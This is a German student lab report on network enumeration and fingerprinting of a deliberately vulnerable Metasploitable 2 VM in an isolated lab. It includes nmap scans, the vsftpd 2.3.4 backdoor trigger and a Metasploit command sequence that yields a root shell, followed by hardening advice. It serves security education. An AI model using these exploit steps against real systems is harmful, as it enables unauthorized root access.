







# Enumeration + Fingerprinting – Dokumentation

**Modul:** 182 – Systemsicherheit implementieren
**Auftrag:** Enumeration und Fingerprinting
**Name:** David
**Datum:** 26.11.2026

---

## 1. Ausgangslage & Ziel

Ziel dieses Auftrags war es, in einer isolierten Lab-Umgebung den **Enumeration-Prozess** an einem Zielsystem durchzuführen, die gefundenen Schwachstellen zu bewerten, einen Exploit erfolgreich auszuführen und abschliessend Massnahmen zur Erhöhung der Resilienz abzuleiten.

**Aufbau des Labs:**

| System | Rolle | IP-Adresse |
|--------|-------|------------|
| Kali Linux | Angriffssystem | 192.168.1.128 |
| Metasploitable 2 | Zielsystem (absichtlich verwundbar) | 192.168.1.129 |

Beide VMs laufen in **VMware Workstation** in einem **Host-only-Netzwerk**. Das ist eine bewusste Sicherheitsmassnahme: Das absichtlich verwundbare Metasploitable-System ist dadurch **nicht** aus dem Firmen- oder Heimnetz erreichbar.



---

## 2. Enumeration & Port Scanning

### 2.1 Netzwerkscan – Live-Hosts finden

```bash
nmap -sn 192.168.1.0/24
```

Gefunden wurden vier Adressen:

| IP | System |
|----|--------|
| 192.168.1.128 | Kali (Angreifer) |
| 192.168.1.129 | Metasploitable (Ziel) |
| 192.168.1.1 | VMware-Gateway |
| 192.168.1.254 | VMware-DHCP-Server |

> **Erkenntnis:** Der Auftrag fragt bewusst "nur Kali und Metasploitable – oder finden Sie mehr?". Die `.1` und `.254` sind **keine Fremdgeräte**, sondern Teil der VMware-Host-only-Infrastruktur (Gateway bzw. DHCP). Beim Enumerieren ist es wichtig, Treffer zu interpretieren und nicht blind als Zielsysteme zu behandeln.



### 2.2 Vollständiger TCP-Port-Scan (SYN-Scan)

```bash
sudo nmap -sS -p- 192.168.1.129
```

Der **SYN-Scan** (`-sS`) ist ein "Stealthy Scan": Er bricht den TCP-3-Wege-Handshake nach dem SYN-ACK ab und sendet kein abschliessendes ACK. Dadurch wird keine vollständige Verbindung aufgebaut. Mit `-p-` werden alle 65535 Ports geprüft (statt nur der 1000 wichtigsten).

> **Erkenntnis:** Das Zielsystem hat auffällig **viele offene Ports** – ein erstes starkes Indiz für ein schlecht gehärtetes System mit grosser Angriffsfläche.



### 2.3 Dienst- und OS-Erkennung (Fingerprinting)

```bash
sudo nmap -sS -sV -O 192.168.1.129
```

`-sV` ermittelt die **Dienstversionen**, `-O` das **Betriebssystem**. Erst diese Versionsinfos machen eine gezielte Schwachstellenbewertung möglich – ein offener Port allein sagt noch nichts über Verwundbarkeit aus.

**Wichtigste gefundene Dienste:**

| Port | Dienst | Version |
|------|--------|---------|
| 21 | FTP | **vsftpd 2.3.4** |
| 22 | SSH | OpenSSH 4.7p1 |
| 23 | Telnet | Linux telnetd |
| 25 | SMTP | Postfix |
| 53 | DNS | ISC BIND 9.4.2 |
| 80 | HTTP | Apache 2.2.8 |
| 139/445 | SMB | Samba 3.x |
| 1524 | Bindshell | Metasploitable root shell |
| 3306 | MySQL | 5.0.51a |
| 5432 | PostgreSQL | 8.3 |
| 6667 | IRC | **UnrealIRCd** |
| 8180 | HTTP | Apache Tomcat 1.1 |

**Betriebssystem:** Linux 2.6.9 – 2.6.33 (veralteter Kernel)

> **Erkenntnis:** `-sV` + `-O` sind das Herzstück des Fingerprintings. Die Versionsnummern (z. B. vsftpd **2.3.4**) sind der direkte Einstieg in die CVE-Recherche. Ohne Versionserkennung bliebe es beim Raten.



### 2.4 UDP-Scan

```bash
sudo nmap -sU --top-ports 20 192.168.1.129
```

TCP-Scans erfassen keine UDP-Dienste. Der UDP-Scan wurde auf die Top-20-Ports begrenzt, da ein vollständiger UDP-Scan (alle 65535 Ports) sehr lange dauert und für diesen Auftrag unverhältnismässig wäre.

> **Erkenntnis:** UDP-Scans produzieren oft Fehlalarme (`open|filtered`), weil UDP – anders als TCP – kein SYN/ACK-Äquivalent kennt. Ergebnisse müssen daher kritischer bewertet werden.



---

## 3. Schwachstellen-Recherche (zwei Exploits)

Auf Basis des Fingerprintings wurden zwei passende Exploits recherchiert.

### Exploit 1 (ausgewählt): vsftpd 2.3.4 Backdoor

- **CVE:** CVE-2011-2523
- **Beschreibung:** In diese spezifische vsftpd-Version wurde (durch einen kompromittierten Download-Server) eine **Backdoor** eingeschleust. Enthält ein Benutzername beim Login die Zeichenfolge `:)`, öffnet der Dienst eine **Root-Shell auf Port 6200**.
- **Warum passend:** Nmap hat vsftpd exakt in Version 2.3.4 erkannt – ein eindeutiger, sehr zuverlässiger Treffer.
- **Quelle:** Rapid7 Metasploitable 2 Exploitability Guide – https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide

### Exploit 2 (nur recherchiert): UnrealIRCd 3.2.8.1 Backdoor

- **CVE:** CVE-2010-2075
- **Beschreibung:** Auch der IRC-Dienst (Port 6667) enthält eine eingebaute Backdoor, über die beliebige Befehle auf dem System ausgeführt werden können.
- **Warum passend:** Nmap hat auf Port 6667 UnrealIRCd erkannt – ebenfalls eine bekannt verwundbare Komponente.
- **Quelle:** Rapid7 Metasploitable 2 Exploitability Guide (s. o.)

---

## 4. Durchführung des Exploits (vsftpd 2.3.4)

Durchgeführt wurde **Exploit 1** mit dem Metasploit-Framework.

```bash
sudo msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.1.129
set LHOST 192.168.1.128
show options
exploit
```

**Ergebnis:** Der Exploit war erfolgreich – es wurde eine **Session mit Root-Rechten** auf dem Zielsystem geöffnet.

Nachweis des erfolgreichen Zugriffs:

```bash
getuid     # → root
sysinfo    # → Hostname: metasploitable, Linux 2.6.x
```

> **Erkenntnis:** Der Weg vom Fingerprinting (Version 2.3.4 erkannt) über die CVE-Recherche bis zur fertigen Root-Shell zeigt die komplette Kette eines Penetrationstests. Eine einzige veraltete, kompromittierte Dienstversion genügt für die vollständige Übernahme des Systems.




---

## 5. Resilienzanalyse

Drei Massnahmen, die den Angriff verhindert oder deutlich erschwert hätten:

1. **Patch-Management / Updates**
   Die verwundbare Version vsftpd 2.3.4 enthielt die Backdoor. Regelmässige Updates aus vertrauenswürdigen Quellen hätten die kompromittierte Version ersetzt und die Lücke geschlossen.

2. **Nicht benötigte Dienste deaktivieren (Hardening)**
   Jeder offene Port vergrössert die Angriffsfläche. Wird FTP (oder ein anderer Dienst) nicht benötigt, sollte er abgeschaltet oder deinstalliert werden. Der Scan zeigte zahlreiche unnötige Dienste (Telnet, Bindshell, IRC …).

3. **Zugriff per Firewall einschränken (Netzwerksegmentierung)**
   Der Zugriff auf den Dienst sollte per Firewall auf autorisierte Hosts/Netze beschränkt werden (Whitelisting / Least Privilege), statt ihn für das gesamte Netz offen zu lassen.

---

## 6. Fazit

Der Auftrag zeigte den vollständigen Ablauf von der Netzwerk-Enumeration über das Fingerprinting bis zur erfolgreichen Ausnutzung einer Schwachstelle. Zentrale Erkenntnis: **Die Qualität des Angriffs hängt direkt von der Gründlichkeit der Enumeration ab** – je präziser die Versionserkennung, desto gezielter die Exploit-Auswahl. Umgekehrt zeigt die Resilienzanalyse, dass konsequentes Patchen, Hardening und Zugriffskontrolle den Angriff bereits im Ansatz verhindert hätten.

---

## Quellen

- Rapid7: Metasploitable 2 Exploitability Guide – https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide
- Nmap Reference Guide – https://nmap.org/book/man.html
- CVE-2011-2523 (vsftpd 2.3.4 Backdoor)
- CVE-2010-2075 (UnrealIRCd Backdoor)